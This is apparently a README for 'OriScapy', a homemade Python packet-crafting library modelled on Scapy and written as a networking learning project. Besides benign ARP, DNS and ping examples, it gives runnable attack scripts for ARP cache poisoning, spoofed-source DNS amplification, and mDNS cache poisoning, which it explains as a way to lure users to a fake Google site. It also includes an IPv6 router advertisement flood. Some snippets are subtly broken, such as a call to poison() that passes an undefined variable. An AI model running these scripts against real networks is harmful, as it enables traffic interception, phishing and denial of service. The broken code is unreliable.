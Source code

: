 # OriScapy
This is a custom-made version of the well known [Scapy library for python](https://scapy.net/).


## Rationale
In my journey of learning about the fascinating world of Networking, I realised that Scapy    
is something im using all the time, without needing to worry about all the     
stuff it does in the background automatically.   
For example, when crafting an ARP request:

```python
pkt = Ether()/ARP(pdst="<Get_This_IP's_Mac")
mac = srp1(pkt)[ARP].hwsrc
```

Scapy automatically fills a good deal of fields of the ARP header.    
For instance, you don't have to worry about these fields:
```text
hwtype, ptype, hwlen, plen, op, hwsrc, psrc, hwdst      
```
Which Scapy automatically fills according to the [RFC Specification](https://datatracker.ietf.org/doc/html/rfc826) / [ARP packet header](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)

Also, no parameters were given to the `Ether` class constructor,   
although the Ethernet header obviously contains some info:
```text
dst, src, type
```

All those fields are automatically completed by Scapy for your own comfort.   
Scapy automatically detects the type of packet to be sent is ARP,  
And so it sets the `type` field to `0x806 (ARP)`, like it should be.   
Also, the `Source MAC` and the `Destination MAC` are automatically detected and filled.

And so I wanted for my knowledge about Networking, to learn more about  
the most famous packets' header format.   
And to do that I thought to make my own Scapy which would support    
firstly the most common headers, such as Ethernet, ARP, IP, ICMP, UDP
and TCP. Now the project supports more header types.

## Usage
**First of all, don't. Please just use [Scapy](https://pypi.org/project/scapy/).**   
But if you insist, then its basically the same as Scapy. Here are some examples:    
**__Note that OriScapy only works on Linux for sending and receiving packets.__**     
#### ARP Queries

```python
from All import *

ip = "192.168.1.2"

# Resolve 192.168.1.2's MAC Address
pkt = Ether()/ARP(pdst=ip)  # Everything is auto-completed :)
ans = sendreceive(pkt)
print(f"{ip}'s MAC address is {ans.hwsrc}")
```

#### ARP Spoofing/Cache Poisoning
```python
from All import *

def poison(target_ip, target_mac, fake_ip, fake_mac, count=50):
    pkt = Ether(src=fake_mac)/ARP(hwsrc=fake_mac, psrc=fake_ip, hwdst=target_mac, pdst=target_ip, opcode=2)
    for _ in range(count):
        send(pkt)

poison(pkt, count=50)

```


#### DNS Queries
(No support for Additional and Authorative RRs)
```python
from All import *  
  
# Resolve google.com by querying google's DNS server (8.8.8.8)  
pkt = Ether()/IP(dst="8.8.8.8")/UDP(dport=53)/DNS(qd=DNSQR(qname="google.com"))  
ans = sendreceive(pkt, timeout=3)

for answer_record in ans.an:
    print(answer_record.rdata)
```

#### DNS Amplification
```python
from All import *

def dns_amp(target_ip):
    pkt = Ether()/IP(src=target_ip, dst="ip.of.dns.server")/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="google.com", qtype=255))
    send(pkt)

dns_amp("192.168.1.2")
```

#### Resolve Hostname in LAN
```python
from All import *  
  
# To query the local LAN for the IP of hostname "myHostname"  
# a DNS Query is sent to multicast ip "224.0.0.251" and port 5353, also known as  
# multicast-DNS (mDNS). Inside the query, the qname should be "hostname"+".local"  
  
pkt = Ether()/IP(dst="224.0.0.251")/UDP(dport=5353)/DNS(qd=DNSQR(qname="myHostname.local"))  
  
# IP may come back either to the multicast address, or directly to the host PC's IP.
# Which means that you can't tell whether a packet is an answer to `pkt` based on
# the dst and src IP inside it, so we set flipIP to False
ans = sendreceive(pkt, flipIP=False)  
  
for answer_record in ans.an:  
    print(answer_record.rdata)
```
    

#### mDNS Cache Poisoning 
```python
from All import *

myIpv4 = "192.168.1.47"

def ismatch_mdns(pkt: Ether):
    return UDP in pkt and 5353 in (pkt[UDP].sport, pkt[UDP].dport) and DNSQR in pkt

def onmatch_mdns(pkt: Ether):
    """
    Receives a mDNS packet and reply with a spoofed packet saying
    that myIpv4 is the IP of that mDNS domain name.

    For example, when a user mistypes "google" for e.g. "goggle", 
    the user's PC queries the LAN for Domain <=> IP using mDNS.
    At that point we reply with our own IP, and the user goes
    to our website thinking we're google.
    :param pkt: Ether
    :return: None
    """

    isIPv6 = IPv6 in pkt

    if isIPv6:
        psrc = pkt[IPv6].psrc
    else:
        psrc = pkt[IP].psrc
    
    sport = pkt[UDP].sport
    dport = pkt[UDP].dport
    name = pkt[DNSQR][0].qname

    print(f"Spoofing response for: {name} from ip: {psrc} -> {myIpv4}")

    eth = Ether(dst=pkt.src)
    udp = UDP(sport=dport, dport=sport)
    dns = DNS(id=pkt[DNS].id, aa=1, an=DNSRR(name=name, ttl=120, rdata=myIpv4))

    # Windows sends both IPv4 and IPv6 packets (with the same DNSQR), so we
    # need to check if the packet is IPv6 or IPv4 and send the correct packet.

    if isIPv6:
        spoofed_response = eth/IPv6(pdst=psrc)/udp/dns
    else:
        spoofed_response = eth/IP(pdst=psrc)/udp/dns

    send(spoofed_response)

sniff(ismatch_mdns, onmatch_mdns)

```

#### Router Advertisement Flood (AKA flood_router6)
```python
from All import *

# Floods all nodes (ff02::1) or a specific address
# (represented by fe80:xx...) with 500 router advertisements.

# hop limit of 255 is required (from the RFC of NDP).
# More documentation soon.

tgt = generateSoliAddr("fe80::xxxx:xxxx:xxxx:xxxx")  # or just ff02::1, which is every host 

for _ in range(500):
    srcmac = randomMac()
    psrc = randomIpv6(isLocal=True)
    prefix = randomIpv6(isPrefix=True)

    pkt = Ether(src=srcmac, dst="33:33:00:00:00:01")/IPv6(psrc=psrc, pdst=tgt, hoplimit=255)/NDPRouterAdv(srcmac, prefix)
    send(pkt)

```

#### Ping an IP
```python
from All import *

# Ping google's DNS server
pkt = Ether()/IP(dst="8.8.8.8")/ICMP()
res = sendreceive(pkt, timeout=2)
print(res)
```



## Changelog
Added more helper functions:
    randomIpv6 and generateSoliAddr.   
Better NDPRouterAdv, which now forces receivers to generate an address using SLAAC.